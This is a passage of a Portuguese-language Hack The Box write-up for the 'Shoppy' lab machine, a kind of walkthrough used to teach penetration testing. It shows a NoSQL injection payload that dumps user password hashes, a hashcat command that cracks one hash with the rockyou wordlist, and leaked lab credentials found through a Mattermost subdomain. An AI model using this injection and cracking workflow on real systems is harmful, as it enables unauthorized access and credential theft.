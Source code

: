 Depois de algumas tentativas, consegui encontrar uma forma de fazer o dump do banco utilizando o mesmo formato do comando anterior, sem espaços: `/admin/search-users?username='||1==1%00`

![Untitled](https://mithr4nd1r.github.io/assets/img/htb/2022-12-21-writeup-htb-shoppy/shoppy7.png)

```bash
0	
_id	"62db0e93d6d6a999a66ee67a"
username	"admin"
password	"23c6877d9e2b564ef8b32c3a23de27b2"
1	
_id	"62db0e93d6d6a999a66ee67b"
username	"josh"
password	"6ebcea65320589ca4f2f1ce039975995"
```

Usando o hashcat e a rockyou o hash do usuário `josh` foi quebrado

- Comando: `hashcat -a 0 -m 0 6ebcea65320589ca4f2f1ce039975995 /usr/share/wordlists/rockyou.txt`

> 6ebcea65320589ca4f2f1ce039975995:`remembermethisway`
{: .prompt-info }
> josh:`remembermethisway`
{: .prompt-info }

## Web (9093) - Log GoLang?

Na porta 9093 existe uma aplicação web rodando, que parece ser um monitor de logs.

![Untitled](https://mithr4nd1r.github.io/assets/img/htb/2022-12-21-writeup-htb-shoppy/shoppy8.png)

Ao procurar pelo plugin `playbook` encontrei o servidor de nome `Mattermost`

[Mattermost](https://github.com/mattermost)

Como só temos duas portas e os fuzzings não retornaram nada, testei colocar `mattermost` como subdominio, incluindo no arquivo `/etc/hosts`, e assim, conseguimos acesso a uma nova página de login.

![Untitled](https://mithr4nd1r.github.io/assets/img/htb/2022-12-21-writeup-htb-shoppy/shoppy9.png)

Utilizando a credencial do josh, conseguimos realizar o login na página.

![Untitled](https://mithr4nd1r.github.io/assets/img/htb/2022-12-21-writeup-htb-shoppy/shoppy10.png)

Ao clicar em Deploy Machine, observa-se uma mensagem contendo novas credenciais

![Untitled](https://mithr4nd1r.github.io/assets/img/htb/2022-12-21-writeup-htb-shoppy/shoppy11.png)

> `jaeger`:`Sh0ppyBest@pp!`
{: .prompt-info }

## 3. Acesso Inicial - Exploração

Validamos as credenciais no acesso SSH:
